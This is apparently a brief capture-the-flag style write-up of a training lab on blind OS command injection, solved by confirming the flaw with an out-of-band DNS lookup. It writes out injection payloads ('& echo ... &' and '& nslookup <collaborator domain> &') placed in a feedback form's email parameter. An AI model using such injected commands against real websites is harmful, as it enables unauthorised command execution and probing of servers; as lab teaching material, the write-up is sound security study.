

# Lab: Blind OS command injection with out-of-band interaction

> Lab Objective: exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- Submit a feedback then inspect the request.
  

- Inject this command `& echo Ashour &` within any parameter, you'll notice no change in the response.
  

- Therefore, I'll try to trigger the application to make a DNS Lookup to a Domain I control (I'm using Burp Collaborator, you can use anything to achieve the same goal).

- Try inject this command `& nslookup Burp-Collaborator-Domain &` within email parameter.
  

- View Burp Collaborator tab and Poll Now, you'll notice that the DNS Lookup has been made.
  

- And the lab is solved.
  

---
